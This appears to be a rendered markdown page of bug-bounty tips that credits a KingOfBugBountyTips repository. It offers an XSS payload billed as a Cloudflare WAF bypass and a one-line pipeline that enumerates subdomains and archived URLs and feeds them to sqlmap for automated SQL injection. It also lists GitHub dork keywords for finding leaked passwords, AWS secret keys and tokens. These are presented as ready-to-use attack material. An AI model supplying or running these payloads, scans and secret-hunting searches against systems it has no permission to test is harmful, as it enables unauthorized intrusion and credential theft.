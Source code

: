 ## 🚨 New CloudFlare XSS Bypass! 🚨
```text
<svg onload=alert%26%230000000040"1")>
```

## 💉 SQLINJECTION ONELINE 💉
```sh
findomain -t https://t.co/SCNfLzBcWO -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1
```
***https://github.com/KingOfBugbounty/KingOfBugBountyTips***

## Github Dorks Search Keywords
```text
Jenkins
OTP
oauth
authoriztion
password
pwd
ftp
dotfiles
JDBC
key-keys
send_key-keys
send,key-keys
token
user
login-singin
passkey-passkeys
pass
secret
SecretAccessKey
app_AWS_SECRET_ACCESS_KEY AWS_SECRET_ACCESS_KEY
credentials
config
security_credentials
connectionstring
ssh2_auth_password
DB_PASSWORD
password
passwd
pwd
secret
private
Ldap
secret_key
secretkey
secret api
secret token
secret pass
secret password
aws secret
client secret
```
